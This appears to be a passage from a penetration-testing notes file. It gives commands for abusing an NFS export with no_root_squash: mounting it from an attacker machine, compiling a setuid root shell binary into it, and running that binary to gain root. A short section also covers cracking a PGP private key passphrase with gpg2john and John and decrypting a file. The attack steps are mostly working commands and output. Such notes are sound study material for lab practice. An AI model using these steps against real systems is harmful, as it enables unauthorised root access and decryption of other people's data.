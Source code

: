  - Let's now mount this folder on our attacker computer:
```bash
mkdir /tmp/mountme
mount -o rw,vers=2 10.10.134.66:/tmp /tmp/mountme
```

 - Now the folder is mounted, let's upload a malicious file:
```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/mountme/shell.c
gcc /tmp/mountme/shell.c -o /tmp/mountme/shell
chmod +s /tmp/mountme/shell
```

##### On the Target Machine
 - If we go back to the target machine and `cd` into the `/tmp` folder, we can see the files we just created from the attacker machine:
```text
-rwxr-xr-x  1 root root  16712 Sep 27 06:13 shell
-rw-r--r--  1 root root     67 Sep 27 06:13 shell.c
```
 - Notice that they were created as root. This is because of the `no_root_squash`.

 - As a normal user, we just need to run this program and well will be `root`:
```bash
./shell
```


### Other Random

##### PGP & ASC
 1. Convert from PGP private key to hash format
```bash
gpg2john PRIV_KEY.asc > OUTPUT_HASH_FILE
```

 2. Crack the hash using `John`
```bash
john OUTPUT_HASH_FILE -w=WORD_LIST_FILE
```

 3. Import the Private key (You'll need the cracked password from part 2)
```bash
gpg --import PRIV_KEY.asc
```

 4. Decrypt using the private key (You'll need the cracked password from part 2)
```bash
gpg --decrypt PAYLOAD.pgp
```